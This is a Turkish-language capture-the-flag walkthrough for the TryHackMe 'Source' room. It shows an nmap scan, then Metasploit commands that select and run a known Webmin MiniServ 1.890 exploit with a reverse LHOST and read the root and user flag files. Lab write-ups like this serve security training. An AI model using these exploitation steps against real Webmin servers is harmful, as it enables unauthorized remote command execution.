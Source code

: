 # Source by Tryhackme

<a href="https://tryhackme.com/room/source" rel="nofollow">Odaya Buradan Ulaşabilirsiniz.</a> 

İlk olarak VPN açıp makinayı çalıştırıyourm. 

Bana verdiği IP adresi şu şekilde = 10.10.90.55 (sizde bu farklı olacaktır.)

Şimdi NMAP taraması yapıyorum 

``` namp -sV 10.10.90.55 ```


tarama sonucu şu şekilde;

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-12 08:21 EDT
Nmap scan report for 10.10.90.55
Host is up (0.090s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.58 seconds
```

Burada görüyorum ki 10000 portunda Webmin çalışıyor.

10.10.90.55:10000 şekilince arama yapıyorum tarayıcıda.Burada https şekilnde arama yapmam gerektiğini görüyorum.

https://10.10.90.55:10000 şekilinde arama yapıyorum ve karşıma çıkan uyarıya Advanced kısmından devam diyerek ilerliyorum.

Karşım giriş sayfası çıkıyor.

![Screenshot_1](https://user-images.githubusercontent.com/34964480/90019273-d8f03180-dcb6-11ea-9405-660efed5b2f6.png)

Terminal ekranımda ``` msfconsole ``` komutu ile Metasploit başlatıyorum. Ardından ``` serach miniserv 1.890 ``` komutu ile exploit buluyorum.

![Screenshot_2](https://user-images.githubusercontent.com/34964480/90020558-af380a00-dcb8-11ea-9c6a-4c21a7e3548c.png)

Bulduğum bu exploiti kullanmak için exploit sırasını şeçmem gerekli bunun için ``` use 0 ``` komutunu kullandım.

Şimdi seçeneklere bir göz atalım ```options``` komutu seçenekleri gösterecektir.

![Screenshot_3](https://user-images.githubusercontent.com/34964480/90020879-2077bd00-dcb9-11ea-8745-ed7c0d3258c2.png)

Sırasıyla ;

            1 - set RHOSTS <buraya hedef ip adresi >  bizimki bu şekilde set RHOSTS 10.10.90.55 
            
            2 - set SSL true
            
            3 - set LHOST <buraya kali tun0 ip adresi > <bunu sudo ifconfig komutu ile görebiliriz>
            
            4 - run 
            
![Screenshot_4](https://user-images.githubusercontent.com/34964480/90021772-608b6f80-dcba-11ea-98da-05662f2be10e.png)

Bu aşamadan sonra ```pwd```komutu ile hangi dosya yolunda bulunduğumuzu görebiliriz.   

Dosya yolumuz /usr/share/webmin şeklinde. Bize lazım olan ```uer.txt``` ve ```root.txt```.

İlk olarak ```ls/root``` komutu ile root yoluna bakıyorum ve root.txt burada. ```cat /root/root.txt``` komutu ile root.txt bayrağını elde ediyoruz.

Sonrasında ise ```ls /home``` komutu ile home klasörüne bakıyorum içeride dark klasörü yer alıyor ``` ls /home/dark ``` komutuyla dark klasörüne bakıyorum ve user.txt burada.

Son olarak ```cat /home/dark/user.txt``` komutu ile user.txt bayrağını elde ediyoruz.

####Böylece odayı tamamlamış olduk. Umarım faydalı olmuştur. Bir sonraki yazıda görüşmek üzere.






